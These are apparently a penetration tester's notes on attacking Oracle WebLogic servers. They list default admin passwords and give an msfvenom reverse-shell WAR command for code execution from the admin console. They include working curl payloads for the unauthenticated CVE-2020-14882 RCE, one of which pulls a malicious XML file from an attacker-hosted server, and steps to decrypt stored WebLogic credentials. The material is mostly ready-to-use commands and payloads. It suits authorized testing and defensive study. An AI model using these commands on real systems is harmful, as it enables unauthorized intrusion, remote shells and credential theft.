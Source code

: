 ```yaml
---
title: WebLogic pentest notes
---
```


Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:
![lock and edit](./WebLogic/wl.PNG)


Unauthenticated RCE CVE-2020-14882
==================================
There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all the other exploits obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/rce%27);")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* SerializedSystemIni.dat: this is the decryption key in binary format so you usually can't grab it using LFI...
* boot.properties: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
